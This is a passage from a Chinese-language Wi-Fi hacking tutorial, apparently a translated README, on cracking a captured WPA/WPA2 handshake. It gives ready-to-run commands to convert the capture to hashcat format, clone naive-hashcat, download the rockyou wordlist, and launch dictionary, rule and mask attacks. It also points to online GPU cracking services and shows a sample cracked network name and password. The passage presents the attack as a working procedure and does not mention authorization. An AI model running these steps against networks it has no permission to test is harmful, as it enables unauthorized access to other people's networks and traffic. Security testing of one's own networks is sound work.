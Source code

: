 ### 破解网络密码

最后一个步骤是使用捕获的 handshake 数据来破解密码。如果你能够访问 GPU，我**强烈**建议你使用 `hashcat` 来破解密码。我已经创建了一个叫做 [`naive-hashcat`](https://github.com/brannondorsey/naive-hashcat) 的简单工具可以让使用 hashcat 变得非常方便。如果你不能够访问 GPU，还有很多在线的 GPU 破解服务可以使用，比如 [GPUHASH.me](https://gpuhash.me/) 或者 [OnlineHashCrack](https://www.onlinehashcrack.com/wifi-wpa-rsna-psk-crack.php) 。你也可以常使用 Aircrack-ng 来进行 CPU 破解。

注意下面的攻击方法都假设用户正在使用弱密码。现如今很多 WPA/WPA2 路由自带 12 位强随机密码，大部分用户都不会去更改。如果你去尝试破解这些密码，我建议你使用 [Probable-Wordlists WPA-length](https://github.com/berzerk0/Probable-Wordlists/tree/master/Real-Passwords/WPA-Length) 字典文件。

#### 使用 `naive-hashcat` 破解（推荐）

在我们使用 naive-hashcat 破解密码之前，我们需要将我们的 `.cap` 文件转换成同等 hashcat 文件格式 `.hccapx`。你可以通过上传 `.cap` 文件到 <https://hashcat.net/cap2hccapx/> 或者直接使用 [`cap2hccapx`](https://github.com/hashcat/hashcat-utils) 工具。

```bash
cap2hccapx.bin hackme.cap hackme.hccapx
```

接着，下载并运行 `naive-hashcat`：

```bash
# 下载
git clone https://github.com/brannondorsey/naive-hashcat
cd naive-hashcat

# 下载 134MB rockyou 字典文件
curl -L -o dicts/rockyou.txt https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt

# 破解！宝贝！破解！
# 2500 是 hashcat 对于 WPA/WPA2 的哈希模式
HASH_FILE=hackme.hccapx POT_FILE=hackme.pot HASH_TYPE=2500 ./naive-hashcat.sh
```

Naive-hashcat 使用多种[字典](https://hashcat.net/wiki/doku.php?id=dictionary_attack)，[规则](https://hashcat.net/wiki/doku.php?id=rule_based_attack)，[组合](https://hashcat.net/wiki/doku.php?id=combinator_attack)以及[伪装](https://hashcat.net/wiki/doku.php?id=mask_attack)（聪明的暴力）攻击，并且它需要花费数天甚至数月来破解中等长度的密码。破解的密码将会保存到 hackme.pot，因此不时要检查这个文件。一旦你破解这个密码，你将会在你的 `POI_FILE` 看到类似于下面的内容：

```
e30a5a57fc00211fc9f57a4491508cc3:9c5c8ec9abc0:acd1b8dfd971:ASUS:hacktheplanet
```

最后两块被 `:` 分隔开来，分别是网络名称和密码。

如果你想直接使用 `hashcat` 而不是 `naive-hashcat` 的话请参考[这个页面](https://hashcat.net/wiki/doku.php?id=cracking_wpawpa2)。

#### 利用 Aircrack-ng 破解

Aircrack-ng 可以用于在你的 CPU 上运行来进行非常基本的字典攻击。在你运行攻击之前，你需要一个单词表。我推荐使用非常著名的 rockyou 字典文件：

```bash
# 下载 134MB rockyou 字典文件
curl -L -o rockyou.txt https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt
```
